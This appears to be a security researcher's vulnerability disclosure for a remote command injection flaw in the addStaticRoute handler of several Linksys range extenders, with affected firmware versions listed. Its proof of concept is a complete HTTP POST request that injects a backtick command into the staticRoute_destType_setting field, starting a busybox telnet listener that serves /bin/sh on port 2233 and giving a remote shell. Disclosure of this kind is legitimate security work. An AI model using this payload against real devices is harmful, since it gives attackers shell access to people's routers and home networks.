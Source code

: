 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500
>
> There is also a stack overflow vulnerability



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `addStaticRoute` function, `staticRoute_IP_setting、staticRoute_Netmask_setting、staticRoute_Gateway_setting、staticRoute_Metric_setting、staticRoute_destType_setting` is directly passed by the attacker, so we can control the `staticRoute_IP_setting、staticRoute_Netmask_setting、staticRoute_Gateway_setting、staticRoute_Metric_setting、staticRoute_destType_setting` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `staticRoute_destType_setting` as **`busybox telnetd -l /bin/sh -p 2233`** , and the router will excute it,such as:

```http
POST /goform/addStaticRoute HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 240
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=gJ1hqi0VitYJv4HQDKIXWf7kFh0aey9K
Upgrade-Insecure-Requests: 1

staticRoute_IP_setting=192.168.100.100&staticRoute_Netmask_setting=255.255.255.0&staticRoute_Gateway_setting=192.168.100.1&staticRoute_Metric_setting=&staticRoute_If_setting=&staticRoute_destType_setting=`busybox telnetd -l /bin/sh -p 2233`
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

